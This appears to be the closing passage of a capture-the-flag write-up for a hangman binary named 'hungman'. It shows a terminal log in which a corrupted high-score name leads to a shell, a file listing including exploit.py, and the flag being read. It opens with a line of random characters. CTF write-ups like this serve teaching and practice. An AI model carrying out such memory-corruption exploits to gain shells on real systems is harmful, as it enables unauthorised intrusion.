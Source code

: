 ```
nievlitkexkpkjsalsenxrzlwfhzfxybdgybrfapcwzybehqnhdedkzrptisqcrxrccnkjeguootga_ialfxqpx_vqkzyuwfyolp
High score! change name?
Highest player: \x90#\xa5�� score: 1600
Continue? $ y
_______
$ j
_______
$ k
_______
$ l
Highest player: \x90#\xa5�� score: 1600
Continue? $ y
_______
$ j
____j__
$ k
____j_k
$ l
_l__j_k
$ m
_l__j_k
$ n
_l__j_k
$ o
_lo_j_k
$ p
High score! change name?
$ y
$ /bin/sh
$ ls
core        flag.txt  peda-session-hungman.txt    Readme.md  working.py
exploit.py  hungman   peda-session-ls.txt    recon.py
$ cat flag.txt
flag{this_looks_like_its_a_well_hungman}
```

Just like that, we pwned the elf.




